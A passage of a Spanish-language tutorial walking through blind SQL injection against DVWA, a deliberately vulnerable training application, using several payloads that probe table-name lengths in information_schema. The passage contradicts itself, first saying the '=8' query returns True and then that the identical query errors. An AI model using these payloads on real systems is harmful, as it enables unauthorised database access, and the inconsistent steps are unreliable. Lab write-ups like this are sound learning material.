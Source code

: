 ![false2](/assets/images/DVWA-SQLi/SQLiBlind-easy/false2.png)

Y vemos que nos responde un valor False, por lo que podemos pensar que el valor es mayor de 5 y menor de 10, aquí probaremos con algún valor entre ese rango, por ejemplo 8:

`1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema = 'dvwa' LIMIT 1,1)=8 -- -`

![true2](/assets/images/DVWA-SQLi/SQLiBlind-easy/true2.png)

Vemos que nos devuelve el valor True, por lo que ahora probaremos sin el operador de mayor y ver que responde:

`1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema = 'dvwa' LIMIT 1,1)=8 -- -`

Nos da error esta consulta, pero probamos con el siguiente valor cercano a ese rango que es 9:

`1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema = 'dvwa' LIMIT 1,1)=9 -- -`

Y esta vez vemos que nos devuelve True:
